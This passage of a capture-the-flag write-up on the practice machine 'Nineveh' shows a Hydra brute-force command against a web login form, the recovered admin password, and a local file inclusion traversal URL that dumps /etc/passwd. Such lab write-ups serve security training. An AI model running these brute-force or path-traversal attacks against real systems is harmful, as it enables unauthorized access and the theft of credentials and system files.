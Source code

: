 {{< img "login.png" "HTTP Login portal" "border" >}}

#### Bruteforce HTTP - Hydra

SQLI didn't work for me. Let's try to bruteforce it with user `admin`:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -V -o hydra_department.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"
```

After 4649 password attemps, the 4650 was the valid one:

```
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
```

Bruteforcing should never be an option as it leaves lots of traces, and it's very noisy in logs terms.

{{< img "adminpage.png" "HTTP Admin Page" "border" >}}

In `/notes`:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

#### Local File Inclusion (LFI)

Looking at the url of `/notes`:

```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt
```

We can see that `?notes=` can lead us to a Local File Inclusion, so:

```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```

Shows us all the users:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```